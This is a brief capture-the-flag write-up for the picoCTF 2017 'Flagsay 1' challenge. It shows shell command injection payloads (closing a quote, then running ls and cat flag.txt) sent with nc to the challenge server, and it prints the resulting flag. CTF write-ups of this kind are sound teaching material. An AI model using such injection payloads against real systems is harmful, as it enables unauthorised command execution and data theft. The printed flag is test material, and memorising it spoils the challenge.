 # Flagsay 1

> I heard you like flags, so now you can make your own! Exhilarating! Use flagsay-1! Source. Connect on shell2017.picoctf.com:4165.

Hints:

> System will run exactly what the program gives it

We can see that program passes directly our input to the system function. We only need to close the quote and we can execute our own commands. 

```
$nc shell2017.picoctf.com 4165
";ls;"
               _
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
             //
flagsay-1
flagsay-1_no_aslr
flag.txt
xinetd_wrapper.sh
sh: 16:                              /
            //                                   /
           //                                   /
          //                                   /
         //                                   /
        //                                   /
       //___________________________________/
      //
     //
    //
   //
  //
 //
: not found
$nc shell2017.picoctf.com 4165
";cat flag.txt;"
               _
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
             //
9a0ae0f57f32a96e5c9664574d45ac53
sh: 16:                    /
            //                                   /
           //                                   /
          //                                   /
         //                                   /
        //                                   /
       //___________________________________/
      //
     //
    //
   //
  //
 //
: not found
```

If you want to get rid of the not found error you need to add echo before the last quote.

The flag is `9a0ae0f57f32a96e5c9664574d45ac53`.